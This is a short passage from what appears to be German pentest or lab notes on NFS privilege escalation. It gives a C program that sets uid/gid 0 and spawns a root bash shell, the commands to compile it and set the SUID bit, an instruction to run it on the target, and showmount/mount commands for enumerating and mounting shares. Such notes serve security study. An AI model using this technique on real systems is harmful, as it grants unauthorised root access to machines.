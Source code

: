 ```

#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}

```

In dem Beispiel habe ich den Output als nfs.c gespeichert und dann mit den Folgenden Befehlen Compiliert, Ausführbar gemacht und dann noch die Rechte Kontrolliert: 
```
gcc nfs.c -o nfs -w
chmod +s nfs
ls -l nfs
```

Nun ist nur noch der letzte schritt offen und das ist das Script auf der Zielmaschine auszuführen (in dem Fall via ./nfs)

### Enumeration von Mountable Shares

| Befehl                               | Wirkung                                                                |
| ------------------------------------ | ---------------------------------------------------------------------- |
| showmount -e *IP Adresse des Shares* | Zeigt an auf welche Verzeichnisse innerhalb des Shares man Zugriff hat |
| mount -o rw *ZielIP:/ZielShare*      | Moiunting des Shares                                                   |

 